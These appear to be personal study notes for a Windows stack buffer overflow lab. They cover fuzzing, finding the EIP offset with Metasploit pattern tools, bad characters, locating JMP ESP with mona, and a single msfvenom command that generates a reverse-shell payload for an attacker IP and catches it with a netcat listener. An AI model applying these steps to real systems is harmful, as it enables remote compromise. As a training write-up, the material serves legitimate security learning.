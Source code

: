 # Buffer Overflow

## Note: Entry Point Could Be Wrong

* the entry point with Immunity Debugger may not start at the actual start of the program, so you can search for strings from the program to find the entry point
* right click on the disassembly window and "Search For" -> "All Referenced Text Strings" -> Right Click

## Tools to Find Target Return Address

* First, copy the DLLs you want to attack, from the target machine to the attacking machine
* disassemblers
* msfpescan (apart of the Metasploit framework)

## First, Use a Python Script

* fuzz the command and find the byte value that it crashed the program with Immunity Debugger
* the python script will tell you when the app crashes and around what bytes

![](<../.gitbook/assets/Buffer Overflow Pic 0.png>)

![](<../.gitbook/assets/Buffer Overflow Pic 1.png>)

## Metasploit Module, Run Without Opening msfconsole

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000 
#(3000 is the Byte value where the program crashed)
```

## Run it Again with the Python Script, but with the New Fffset

* notice how the "TRUN" command now has "/.:/" behind it
* this is because of we found that value within Immunity Debugger when we crashed it the first time

![](<../.gitbook/assets/Buffer Overflow Pic 2.png>)

## Check Immunity Bugger for “EIP” to be overwritten with a Value

* take that value and run this new command
* this finds the offset

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset -l 3000 -q 386F4337
#(this -q value is what value was left within the EIP)
```

* it will give us the exact offset byte value, this example will be 2003

## Overwrite the EIP

* rewrite the script
* “A” \* 2003 is to overwrite the buffer up until the EPI
* “B” \* 4 is to confirm we have the right spot by putting in different values
* EAX and EBP should be all A's
* EPI should be all B's
* remember it is HEX CODE!

![](<../.gitbook/assets/Buffer Overflow Pic 3.png>)

![](<../.gitbook/assets/Buffer Overflow Pic 4.png>)

## Finding Bad Characters

* What characters are good and bad for the shell code?

```
badChars = (
"\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f"
"\\x10\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f"
"\\x20\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f"
"\\x30\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f"
"\\x40\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\\x4d\\x4e\\x4f"
"\\x50\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f"
"\\x60\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f"
"\\x70\\x71\\x72\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f"
"\\x80\\x81\\x82\\x83\\x84\\x85\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f"
"\\x90\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f"
"\\xa0\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf"
"\\xb0\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf"
"\\xc0\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf"
"\\xd0\\xd1\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf"
"\\xe0\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef"
"\\xf0\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff"
)
```

### Edit the script

![](<../.gitbook/assets/Buffer Overflow Pic 5.png>)

* run the script and crash the program again, which is okay
* in the “Registers” section of Immunity Debugger, right click ESP and click "Follow in Hex Dump"
* Look for what is out of place, in this case, B0 is the odd one
* it should go in order, 01 02 03, etc.
* NULL BYTE = 00, IT IS ALWAYS A BAD CHARACTER. EVEN IF YOU FIND NO BAD CHARACTERS 00 IS ALWAYS BAD

![](<../.gitbook/assets/Buffer Overflow Pic 6 (1).png>)

## Finding the Right Module

* This is when you are looking for a DLL, or something similar, that has no memory protections
* “Mona Modules” on Github is a tool that is used to find the right place
* paste it in “This PC, C Drive, Program Files (x86), Immunity Inc, Immunity Debugger, PyCommands Folder”
* Now, on the bottom of Immunity Debugger, you search “!mona modules”
* look for a path that is attached to the program you are breaking, and also has FALSE for all memory protections

![](<../.gitbook/assets/Buffer Overflow Pic 7.png>)

### Now we go to Kali Linux, to get the Jump Code

```bash
“locate nasm_shell”
“/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb”
```

* in the shell, type “JMP ESP”
* copy the results, which in this case is FFE4

### Go Back to Immunity Debugger and in the Bottom Search

```bash
!mona find -s ”\xff\xe4" -m essfunc.dll #<- essfunc.dll is the dll it found to be vulnerable
```

![](<../.gitbook/assets/Buffer Overflow Pic 8.png>)

### It Displays Results, and Start at the Top and Go Down the List with the Following Steps

* go to Kali Linux and edit the Python script again
* keep in mind the Return Address

![](<../.gitbook/assets/Buffer Overflow Pic 9.png>)

go back to Immunity Debugger, and click on the Blue Arrow next to the Red Arrows and type in the Return Address, then set a break point there (F2 for Windows)

* click play
* Run the new Python script, and notice how Immunity Bugger has paused. Congrats we control the EIP!

### Now use msfvenom to create a shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<attack machine IP> LPORT=4444 EXITFUNC=thread -f c -a x86 -b ”\x00" #(f is filetype, a is architecture, b is bad characters and where you would put them)
```

* once executed, copy the “unsigned char buf\[]” values without the semi-colon
* now, once again edit the Python script
* add a variable “overflow" to the top and paste in the values surrounded by () parenthesis
* add padding and “overflow” to “shellcode”
* 32 is the padding value which can be lowered if working with small sizes (padding makes the buffer overflow work better)

![](<../.gitbook/assets/Buffer Overflow Pic 10.png>)

* set up a Netcat listener with the same ports you put within “LPORT” with your shell code
* make sure the Terminal App is running, then run the Python script

## Resources

* [The Cyber Mentor's](https://www.youtube.com/playlist?list=PLLKT\_\_MCUeix3O0DPbmuaRuR\_4Hxo4m3G) buffer overflow playlist
* [https://www.youtube.com/watch?v=OOkU7to0Ty4\&ab\_channel=JesseK](https://www.youtube.com/watch?v=OOkU7to0Ty4\&ab\_channel=JesseK)
* [https://www.youtube.com/watch?v=GnUcfbBr7d0\&t=3s\&ab\_channel=AnonVenus](https://www.youtube.com/watch?v=GnUcfbBr7d0\&t=3s\&ab\_channel=AnonVenus)
